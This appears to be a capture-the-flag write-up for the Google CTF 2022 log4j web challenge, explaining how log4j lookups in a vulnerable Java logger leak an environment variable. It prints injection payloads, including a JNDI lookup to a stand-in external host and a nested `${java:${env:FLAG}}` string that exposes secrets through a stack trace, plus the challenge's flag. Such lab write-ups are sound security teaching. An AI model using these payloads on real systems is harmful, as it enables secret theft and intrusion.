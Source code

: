 # Log4j Challenge Writeup
## Files
* Challenge folder: https://github.com/google/google-ctf/tree/master/2022/web-log4j

## Flag Location
* environment variable `FLAG` or `${env:FLAG}`

## Background Info
This challenge is based on the log4j vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228))  that occured late 2021 but made a bit more complicated.

There are only two major directories within the repo (chatbot and server). Within these directories the only important files to investigate are the **App.java** (located at chatbot/src/main/java/com/google/app/App.java) and **app.py** (located server/app.py). These two files are the main logic and server taking in our input for the web challenge respectively.

The architecture is quite straight forward. But I'll break it down quickly. The **app.py** server logic that takes our input in. There is very little validation checks here, basically just making sure that you are submitting something. The input then can passed to the **App.java** file where the main logic begins. By this point your input has been split by a space and only the first index in the array matters as this is treated as *args* (for **App.java***) and is the only value that gets logged within **App.java**. For example, if you inputed `hi asdf` only `hi` gets logged within the log4j logger. So it is pretty important that we get the injection correct here. This is because the vulnerable code is located in **App.java** and can be seen here `LOGGER.info("msg: {}", args);`. 

**Please note:** that any error message you see on the web page doesn't matter as this vulnerable log code occurs before this happens

## Solution
Start of by doing this locally as seeing the logging occur server side help quite a bit with the exploitation. To get the container running locally after downloading the file run the following command: `docker run -it --cap-add=SYS_ADMIN --read-only --security-opt seccomp=unconfined -p 127.0.0.1:1337:1337  $(docker build -q .)`

In your browser, go to http://127.0.0.1:1337.

Try a standard jndi payload such as `
${jndi:dns://aeutbj.example.com/ext}
`
 
Observe to see that the logger doesn't execute this payload since JNDI isn't enabled within this code.  In the screenshot below I showed what the logger outputted, however, if JDNI was enabled the logger would return something similar to `Send LDAP reference result for a redirecting to http://aeutbj.example.com`.


Since JNDI isn't enabled we aren't able to extract the flag out via a webhook which makes it a bit more hard.

However, this means that we only have the log4j lookup features to attempt to get the flag. The log4j lookup features are documented pretty well [here](https://logging.apache.org/log4j/2.x/manual/lookups.html) and [here](https://logging.apache.org/log4j/2.x/manual/configuration.html). Lookups in log4j are basically a way to add values to the log4j configurations but there are some default ones available.

Try a basic lookup payload such as `${java:version}` and we observe in the log that the payload isn't reflected but we are able to see `Java version 11.0.15` as seen in the screenshot below.

You then can try to see if we can see the flag in the log server side by injection the payload `${env:FLAG}` and we see CTF{REDACTED}.

That means lookup is a success but the problem is that this isn't reflected on the webapge meaning we won't be able to see the flag. We have to force it out.

After a bit of fuzzing and reading the documentation, I learnt that you can generate an error by providing an attribute that doesn't exists for a lookup. For example, if I were to submit `${java:g22}` it will show a stack trace on the webpage as seen in the screenshot below.

I saw `java:g22` within the stack trace and got to thinking what would happen if I repalced the `g22` above with `${env:FLAG}` to produce the payload: `${java:${env:FLAG}}`. From that payload, I was able to see the `CTF{REDACTED}` as seen in the screenshot below.


Submitting this into the actual challenge got me the flag `CTF{d95528534d14dc6eb6aeb81c994ce8bd}` as seen in the screenshot below.
